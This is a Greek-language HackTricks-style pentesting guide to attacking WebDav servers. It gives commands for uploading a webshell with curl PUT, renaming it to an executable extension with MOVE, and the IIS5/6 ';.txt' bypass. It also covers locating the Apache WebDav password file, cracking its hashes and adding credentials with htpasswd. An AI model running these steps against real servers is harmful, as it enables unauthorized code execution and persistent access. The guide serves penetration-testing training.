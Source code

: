 # WebDav

{{#include ../../banners/hacktricks-training.md}}

Όταν ασχολείστε με έναν **HTTP Server με ενεργοποιημένο το WebDav**, είναι δυνατόν να **χειριστείτε αρχεία** αν έχετε τα σωστά **διαπιστευτήρια**, που συνήθως επαληθεύονται μέσω **HTTP Basic Authentication**. Η απόκτηση ελέγχου σε έναν τέτοιο server συχνά περιλαμβάνει την **ανάρτηση και εκτέλεση ενός webshell**.

Η πρόσβαση στον server WebDav συνήθως απαιτεί **έγκυρα διαπιστευτήρια**, με το [**WebDav bruteforce**](../../generic-hacking/brute-force.md#http-basic-auth) να είναι μια κοινή μέθοδος για την απόκτησή τους.

Για να ξεπεράσετε περιορισμούς στην ανάρτηση αρχείων, ειδικά εκείνους που αποτρέπουν την εκτέλεση server-side scripts, μπορείτε να:

- **Ανεβάσετε** αρχεία με **εκτελέσιμες επεκτάσεις** απευθείας αν δεν περιορίζονται.
- **Μετονομάσετε** τα ανεβασμένα μη εκτελέσιμα αρχεία (όπως .txt) σε εκτελέσιμη επέκταση.
- **Αντιγράψετε** τα ανεβασμένα μη εκτελέσιμα αρχεία, αλλάζοντας την επέκτασή τους σε μία που είναι εκτελέσιμη.

## DavTest

**Davtest** προσπαθεί να **ανεβάσει αρκετά αρχεία με διαφορετικές επεκτάσεις** και **ελέγχει** αν η επέκταση είναι **εκτελέσιμη**:
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../images/image (851).png>)

Αυτό δεν σημαίνει ότι οι **.txt** και **.html επεκτάσεις εκτελούνται**. Αυτό σημαίνει ότι μπορείτε να **έχετε πρόσβαση σε αυτά τα αρχεία** μέσω του διαδικτύου.

## Cadaver

Μπορείτε να χρησιμοποιήσετε αυτό το εργαλείο για να **συνδεθείτε στον WebDav** διακομιστή και να εκτελέσετε ενέργειες (όπως **ανέβασμα**, **μετακίνηση** ή **διαγραφή**) **χειροκίνητα**.
```
cadaver <IP>
```
## Αίτημα PUT
```
curl -T 'shell.txt' 'http://$ip'
```
## Αίτημα MOVE
```bash
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
## IIS5/6 WebDav Vulnerability

Αυτή η ευπάθεια είναι πολύ ενδιαφέρουσα. Το **WebDav** **δεν επιτρέπει** να **ανεβάσετε** ή να **μετονομάσετε** αρχεία με την επέκταση **.asp**. Αλλά μπορείτε να **παρακάμψετε** αυτό **προσθέτοντας** στο τέλος του ονόματος **";.txt"** και το αρχείο θα **εκτελείται** σαν να ήταν αρχείο .asp (μπορείτε επίσης να **χρησιμοποιήσετε ".html" αντί για ".txt"** αλλά **ΜΗΝ ξεχάσετε το ";"**).

Έτσι μπορείτε να **ανεβάσετε** το shell σας ως αρχείο ".**txt"** και να **αντιγράψετε/μετακινήσετε το σε ένα αρχείο ".asp;.txt"**. Όταν αποκτήσετε πρόσβαση σε αυτό το αρχείο μέσω του web server, θα **εκτελείται** (το cadaver θα πει ότι η ενέργεια μεταφοράς δεν λειτούργησε, αλλά λειτούργησε).

![](<../../images/image (1092).png>)

## Post credentials

Αν το Webdav χρησιμοποιούσε έναν Apache server, θα πρέπει να κοιτάξετε τις ρυθμισμένες τοποθεσίες στον Apache. Συνήθως:\
\&#xNAN;_**/etc/apache2/sites-enabled/000-default**_

Μέσα σε αυτό μπορείτε να βρείτε κάτι σαν:
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
Όπως μπορείτε να δείτε, υπάρχουν τα αρχεία με τα έγκυρα **credentials** για τον **webdav** διακομιστή:
```
/etc/apache2/users.password
```
Μέσα σε αυτούς τους τύπους αρχείων θα βρείτε το **username** και ένα **hash** του κωδικού πρόσβασης. Αυτά είναι τα διαπιστευτήρια που χρησιμοποιεί ο διακομιστής webdav για να πιστοποιεί τους χρήστες.

Μπορείτε να προσπαθήσετε να **crack** τα διαπιστευτήρια, ή να **add more** αν για κάποιο λόγο θέλετε να **access** τον διακομιστή **webdav**:
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
Για να ελέγξετε αν τα νέα διαπιστευτήρια λειτουργούν, μπορείτε να κάνετε:
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## Αναφορές

- [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{{#include ../../banners/hacktricks-training.md}}
